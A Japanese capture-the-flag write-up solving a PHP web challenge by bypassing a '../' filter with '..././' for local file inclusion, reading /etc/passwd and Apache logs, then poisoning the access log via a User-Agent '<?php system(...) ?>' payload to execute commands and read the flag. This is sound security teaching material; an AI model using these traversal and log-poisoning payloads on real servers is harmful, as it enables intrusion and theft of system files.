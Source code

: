 # Poison:Web:pts
Bypass some stuff and get the flag!  
[Click here](https://ch4.sbug.se/)  

# Solution
ブラウザでアクセスすると、エラーが発生する。  
curlしてみる。  
```bash
$ curl https://ch4.sbug.se/
<iframe src="https://64.225.23.248" style="position:fixed; top:0; left:0; bottom:0; right:0; width:100%; height:100%; border:none; margin:0; padding:0; overflow:hidden; z-index:999999;">
    Your browser doesn't support iframes
</iframe>
```
よくわからないがターゲットは`https://64.225.23.248`のようだ。  
httpsできないのでhttpでつなぐと謎のサイトだった。  
[site.png](site/site.png)  
`Where is the flag?`には`http://64.225.23.248/?file=inc.txt`がリンクされている。  
任意ファイルが読み込めそうだ。  
`../../../../../etc/passwd`を読み込むと以下のようなエラーが発生した。  
```bash
$ curl http://64.225.23.248/?file=../../../../../etc/passwd
~~~
    <a class="btn btn-primary" href=".?file=inc.txt" /> Where is the flag? </a><br><br><br />
<b>Warning</b>:  include(inc/etc/passwd): failed to open stream: No such file or directory in <b>/var/www/html/index.php</b> on line <b>29</b><br />
<br />
<b>Warning</b>:  include(): Failed opening 'inc/etc/passwd' for inclusion (include_path='.:/usr/local/lib/php') in <b>/var/www/html/index.php</b> on line <b>29</b><br />

    <!-- /someflagfile  --!>
~~~
```
`inc`以下にパスが接続され、`../`は削除されるようだ。  
`..././`によるバイパスを試みる。  
```bash
$ curl http://64.225.23.248/?file=..././..././..././..././..././etc/passwd
~~~
    <a class="btn btn-primary" href=".?file=inc.txt" /> Where is the flag? </a><br><br>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/bin/false
Debian-exim:x:101:101::/var/spool/exim4:/bin/false

    <!-- /someflagfile  --!>
~~~
```
突破できたが、`/someflagfile`とある通り、ファイル名が不明である(ルートにあるようだ)。  
戯れに`http://64.225.23.248/admin`などにアクセスしていると、apacheであることがわかる。  
```bash
$ curl http://64.225.23.248/admin
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL /admin was not found on this server.</p>
<hr>
<address>Apache/2.4.25 (Debian) Server at 64.225.23.248 Port 80</address>
</body></html>
```
アクセスログをヒントを求めて見てみる。  
```bash
$ curl http://64.225.23.248/?file=..././..././..././..././..././var/log/apache2/access.log
~~~
    <a class="btn btn-primary" href=".?file=inc.txt" /> Where is the flag? </a><br><br>- - [27/Nov/2021:08:28:27 +0000] "GET /?file=..././..././..././..././..././var/log/apache2/access.log HTTP/1.1" 200 791 "-" "curl/7.68.0"
- - [27/Nov/2021:08:28:36 +0000] "GET /?file=..././..././..././..././..././var/log/apache2/access.log HTTP/1.1" 200 929 "-" "curl/7.68.0"
- - [27/Nov/2021:08:28:40 +0000] "GET /?file=..././..././..././..././..././var/log/apache2/access.log HTTP/1.1" 200 1067 "-" "curl/7.68.0"

    <!-- /someflagfile  --!>
~~~
```
複数回にわたる自身のアクセスログが、User-Agentとともに残っていた。  
ここでUser-Agentにphpコードを入力し、ログから任意コードを実行する手法を思いつく。  
```bash
$ curl http://64.225.23.248/satoki -H "User-Agent: <?php system('ls /'); ?>"
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
~~~
$ curl http://64.225.23.248/?file=..././..././..././..././..././var/log/apache2/access.log
~~~
    <a class="btn btn-primary" href=".?file=inc.txt" /> Where is the flag? </a><br><br>- - [27/Nov/2021:08:34:24 +0000] "GET /satoki HTTP/1.1" 404 444 "-" "bin
boot
dev
etc
getyourfl4g
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
"

    <!-- /someflagfile  --!>
~~~
```
任意コード実行が可能であった。  
`getyourfl4g`なる不審なファイルがあるので、catで読みだしてやる。  
```bash
$ curl http://64.225.23.248/satoki -H "User-Agent: <?php system('cat /getyourfl4g'); ?>"
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
~~~
$ curl http://64.225.23.248/?file=..././..././..././..././..././var/log/apache2/access.log
~~~
    <a class="btn btn-primary" href=".?file=inc.txt" /> Where is the flag? </a><br><br>- - [27/Nov/2021:08:35:19 +0000] "GET /satoki HTTP/1.1" 404 444 "-" "SBCTF{You_Pois0ned_Me}
"

    <!-- /someflagfile  --!>
~~~
```

## SBCTF{You_Pois0ned_Me}